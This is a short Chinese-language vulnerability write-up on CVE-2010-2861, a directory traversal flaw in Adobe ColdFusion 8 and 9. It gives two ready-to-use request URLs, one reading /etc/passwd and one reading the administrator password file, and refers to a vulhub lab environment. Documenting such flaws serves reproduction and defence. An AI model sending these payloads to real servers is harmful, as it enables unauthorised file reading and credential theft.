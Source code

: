 # （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

## 一、漏洞简介

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 二、漏洞影响

Adobe ColdFusion 8

Adobe ColdFusion 9

## 三、复现过程

直接访问

```html
http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en
```

即可读取文件/etc/passwd：

![image](images/img1.png)

读取后台管理员密码

```html
http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
```

![image](images/img2.png)

## 参考链接

https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/

